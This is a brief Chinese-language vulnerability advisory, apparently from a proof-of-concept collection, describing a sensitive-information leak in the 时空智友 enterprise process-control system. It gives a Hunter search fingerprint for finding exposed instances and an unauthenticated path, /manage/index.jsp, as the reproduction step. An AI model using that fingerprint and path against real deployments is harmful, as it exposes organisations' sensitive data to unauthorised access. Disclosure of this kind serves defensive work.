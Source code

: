 # 时空智友企业流程化管控系统manage敏感信息泄露漏洞

# 一、漏洞简介
时空智友企业流程化管控系统是一个用于企业流程管理和控制的软件系统。它旨在帮助企业实现流程的规范化、自动化和优化，从而提高工作效率、降低成本并提升管理水平。时空智友企业流程化管控系统敏感信息泄露,攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 时空智友企业流程化管控系统

# 三、资产测绘
+ hunter`web.icon=="2464cbce5dd2681dd4fb62d055520d78"`
+ 登录页面

![1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3.png](./img/rxKtzkM-r8wfTNx6/1693803612908-2a0fea76-532f-4ba1-87fa-4fc6bfae5cf3-099545.png)

# 四、漏洞复现
```plain
/manage/index.jsp
```

![1700037663571-3c18c7c2-ca30-4334-9668-8676d65805b1.png](./img/rxKtzkM-r8wfTNx6/1700037663571-3c18c7c2-ca30-4334-9668-8676d65805b1-103789.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kypwe3tltt5kt5ud>